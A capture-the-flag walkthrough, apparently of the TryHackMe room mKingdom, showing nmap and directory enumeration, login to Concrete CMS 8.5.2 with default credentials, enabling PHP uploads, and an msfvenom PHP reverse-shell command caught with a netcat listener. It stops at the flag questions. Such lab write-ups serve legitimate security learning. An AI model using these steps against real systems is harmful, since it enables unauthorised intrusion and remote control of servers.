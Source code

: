 # mKingdom

### It's-a-me!

Initial nmap scan shows port 85 open:

    nmap -sC -sV -p85 10.10.137.9                 
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-04 12:58 EDT
    Nmap scan report for 10.10.137.9
    Host is up (0.054s latency).
    
    PORT   STATE SERVICE VERSION
    85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
    |_http-title: 0H N0! PWN3D 4G4IN
    |_http-server-header: Apache/2.4.7 (Ubuntu)
Gobuster directory enumeration shows /app directory, which eventually leads me to `http://10.10.137.9:85/app/castle/`<br />
![image](https://github.com/user-attachments/assets/5b5eae1c-9472-4d91-8070-0edacb0a1249)<br />
As you can see from the image above, Wappalyzer shows that this server is running `Concrete CMS 8.5.2`. After some online search and website enumeration, I found the following page `http://10.10.137.9:85/app/castle/index.php/login`:<br />
![image](https://github.com/user-attachments/assets/994cb771-e08d-42af-9f77-93b6ce5159ef)<br />
I tried with `admin:password`, and it worked, lol. Now I can exploit a vulnerability that i found [here](https://hackerone.com/reports/768322). Follow the steps provided in this guide:<br />
Add .php in the allowed file types: <br />
![image](https://github.com/user-attachments/assets/76e8c642-45ab-4bfe-96d1-62cfbf2efb84)<br />
Now generate a php revershe shell with msfvenom: `msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=1234 > shell.php`.<br />
Now upload it:<br />
![image](https://github.com/user-attachments/assets/6cdf3097-1912-47c2-b9fc-abd5deb962e4)<br />
Now open a netcat listener and click on the created link: <br />
![image](https://github.com/user-attachments/assets/7b301926-ee80-436e-87b7-0b8199e01bc6)<br />
Nice:<br />
![image](https://github.com/user-attachments/assets/7340f0ee-89cf-46b4-96c2-62d18e7381c0)<br />







- What is user.txt?
- What is root.txt?
